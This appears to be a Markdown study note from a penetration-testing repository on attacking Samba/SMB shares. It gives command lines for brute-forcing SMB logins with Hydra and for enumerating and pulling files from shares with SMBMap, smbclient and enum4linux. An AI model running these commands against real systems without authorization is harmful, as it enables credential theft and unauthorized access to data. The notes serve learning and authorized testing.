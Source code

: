 # Exploiting Samba
> SMB is the Server Message Block network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a LAN. Samba is the Linux implementation of SMB and it allows Windows systems to access Linux shares and devices.

Samba (SMB) Default Port: `445`
- SMB originally ran on top of NetBIOS using port `139` and you can still find machines that run both (for backwards compatibility).

## Contents
- [Intro](#intro)
  - [Susceptible to Attacks](#susceptible-to-attacks)
  - [Exploiting Samba](#exploiting-samba-1)
- [Exploits](#exploits)
  - [Hydra](#hydra-1)
  - [SMBMap](#smbmap-1)
  - [smbclient](#smbclient-1)
  - [enum4linux](#enum4linux-1)

## Intro

### Susceptible to Attacks
- Samba is susceptible to the same attacks as Windows.
  - PsExec
  - CrackMapExec
  - MetaSploit module(s)

### Exploiting Samba
- Samba utilizes username and password authentication in order to obtain access to the server or a network share.

#### [Hydra](../../hydra.md)
- We can perform a brute-force attack on the samba server in order to obtain legitimate credentials.
- After obtaining legitimate credentials, we can use a utility called SMBMap

#### [SMBMap](../../04_Enumeration/enum_smb.md#smbmap)
- Enumerate samba sare drives.
- List the contents of the shares.
- Upload/Download/Execute files.

#### [smbclient](../../04_Enumeration/enum_smb.md#smbclient)
- smbclient communicates with a LAN Manager server, offering an interface similar to that of the ftp program.
- It can be used to download files from the server to the local machine.
- It can also upload goodies from the local machine to the target.
- And it can retrieve directory information from the server.

#### [enum4linux](../../04_Enumeration/enum_smb.md#enum4linux)
- Another tool. More information.

## Exploits

### [Hydra](../../hydra.md)
```
hydra -l admin -P /usr/share/.../unix_passwords.txt smb://[target ip]
```
- Brute-force login creds with Hydra.

### [SMBMap](../../04_Enumeration/enum_smb.md#smbmap)
```
smbmap                                        # this will show you usage
smbmap -h [target ip] -u admin -p password1   # this shows you the shares (each with specified perms)
```
- Now... How do you access these shares? With smbclient...

### [smbclient](../../04_Enumeration/enum_smb.md#smbclient)
```
smbclient       # usage
man smbclient   # usage
smbclient -L [target ip] -U admin               # enter... prompted for pwd
smbclient //[target ip]/[share name] -U admin   # enter... prompted for pwd
```
- `-L`  is to List out the shares
  - This should give you pretty much the same info we got from SMBMap
- If successful, you will get a prompt: `smb: \>`
  - Look around in the share to see if there are goodies to download. If not, try the next share.
  - Lather. Rinse. Repeat.
  - To download: `get [filename]`

### [enum4linux](../../04_Enumeration/enum_smb.md#enum4linux)
```
enum4linux -a [target ip]
enum4linux -a -u admin -p password1 [target ip]   
```
- `-a`  All option to enumerate all the crap you can.
- Lots of the same info, but at the bottom it lets you know that the server does not allow null sessions (empty usernames and passwords).
  - If they were allowed, we'd get a butt ton more info from enum4linux
- There's your butt ton of information (comprehensive)
